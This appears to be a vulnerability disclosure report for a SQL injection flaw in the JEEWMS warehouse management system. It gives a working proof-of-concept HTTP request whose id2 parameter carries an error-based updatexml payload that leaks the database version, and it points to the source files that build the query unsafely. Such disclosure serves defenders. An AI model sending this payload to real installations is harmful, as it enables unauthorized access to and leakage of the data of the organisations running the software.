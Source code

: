 ### 💥 Vulnerability Report : SQL Injection in 

------

**1. Product:**

- **Name:** JEEWMS Warehouse Management System
- **Version:** latest version
- **Repository:** https://gitee.com/erzhongxmu/JEEWMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- `POST /jeewms/systemController.do`

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the id1 and id2 parameters in the/jeewms/systemControl.do interface for attack. The backend uses this parameter in dynamic HQL construction, but does not perform input filtering and parameter precompilation, resulting in SQL injection.

------

**5. Proof of Concept (PoC):**

```
POST http://xxx/jeewms/systemController.do HTTP/1.1
Host: xxx
Cookie: JSESSIONID=093BDB6C9E298905D25C65DE49C2A5C4; JEECGINDEXSTYLE=ace; ZINDEXNUMBER=1990
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

diffDataVersion=1&id1=1&id2=1' and updatexml(1,concat('~',version(),'~'),1)='1
```

If vulnerable, the response will contain an error message such as:

![image-20251029104908916](./assets/image-20251029104908916.png)

This confirms that the SQL injection is successful and discloses database user information.



**6. Vulnerable Code Reference**

	src/main/java/org/jeecgframework/web/system/controller/core/SystemController.java

![image-20251029105421542](./assets/image-20251029105421542.png)

	src/main/java/org/jeecgframework/core/common/service/impl/CommonServiceImpl.java

![image-20251029105510653](./assets/image-20251029105510653.png)

```
src/main/java/org/jeecgframework/core/common/dao/impl/GenericBaseCommonDao.java
```

![image-20251029105629565](./assets/image-20251029105629565.png)

The above code receives the id1 or id2 parameters input by the client and directly concatenates them into the HQL statement without any filtering or precompilation processing. Therefore, attackers can inject arbitrary HQL code through id1 or id2 parameters, leading to SQL injection vulnerabilities.

------

**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS

------

**8. References:**

- https://gitee.com/erzhongxmu/JEEWMS
- 